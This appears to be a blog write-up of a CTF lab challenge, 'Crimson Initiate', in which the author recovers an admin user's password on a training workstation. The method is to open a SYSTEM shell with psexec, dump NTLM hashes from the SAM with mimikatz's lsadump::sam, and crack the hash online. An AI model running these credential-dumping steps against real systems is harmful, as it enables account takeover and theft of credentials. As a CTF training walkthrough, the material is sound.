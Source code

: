```yaml
---
title: "Crimson Initiate"
date: 2024-07-01T13:11:20-10:01
tags: ['CTF','Writeups','Forensics','Hard']
---
```



# [Home](https://jjolley91.github.io/blog/) >

###  [Cyber Defense CTF](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/) >  [Forensics](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/Forensics/)

## [Back](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/Forensics/puzzle_pieces)  <> [Next](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/incident_response/)

#### NOTE - The resources needed for this challenge are on the Cyber Defense CTF Triage Workstation VM on our hosted platform.

### Let's dabble a bit on the offensive side. There is a user named crimson with admin privileges on the Triage Workstation. Use any method you prefer to get the user's password. The password is the flag.

#### You are able to download tools to the workstation if need be

For this challenge we are directed again to the Cyber Defense CTF Triage Workstation, and told that there is a user on the system named 'Crimson'. The objective is to retrieve their password. 

We can do this quite easily if we use [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)!

Once mimikatz is downloaded and extracted, we can open a cmd prompt as the System user:

```powershell
psexec -i -s cmd.exe
```

Then we can start mimikatz and dump the NTLM hashed passwrods for all the users and look for the user Crimson.

```cmd
.\mimikatz.exe

privilege::debug

lsadump::sam
```

![crimson_initate_1](https://github.com/jjolley91/blog/blob/main/static/le_ctf_24/crimson_initate_1.png?raw=true)

Now that we have the NTLM hash all we need to do is crack it using your software of choice. I went with [Crackstation](https://crackstation.net/) for this, which cracked the hash without any issue, since it was a weak password.

![crimson_initate_2](https://github.com/jjolley91/blog/blob/main/static/le_ctf_24/crimson_initate_2.png?raw=true)


#### Note: This flag does not need to be in the leveleffect{} wrapper.

## [Back](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/Forensics/puzzle_pieces)  <> [Next](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/incident_response/)
